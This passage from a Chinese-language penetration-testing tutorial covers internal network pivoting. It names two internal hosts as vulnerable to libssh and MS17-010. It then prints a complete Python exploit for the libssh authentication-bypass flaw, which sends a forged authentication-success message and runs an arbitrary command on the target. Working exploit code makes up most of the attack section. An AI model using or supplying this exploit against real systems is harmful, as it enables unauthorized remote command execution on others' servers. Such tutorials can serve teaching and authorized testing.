 >需要注意 nmap 通过代理扫描时，就不能使用 ping 判断主机存活以及 syn 扫描等方式了，因为代理工作在传输层。

其他工具同理。

### 0x05 内网渗透
上一步我们配置好了路由并扫描到了内网主机，这里我们对内网主机进行渗透测试：
```
192.168.1.3:2222 libssh
192.168.1.4:445 MS17-010
```

**libssh**  
这个漏洞我们使用第三方的 exploit 来进行攻击，如下：
```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```
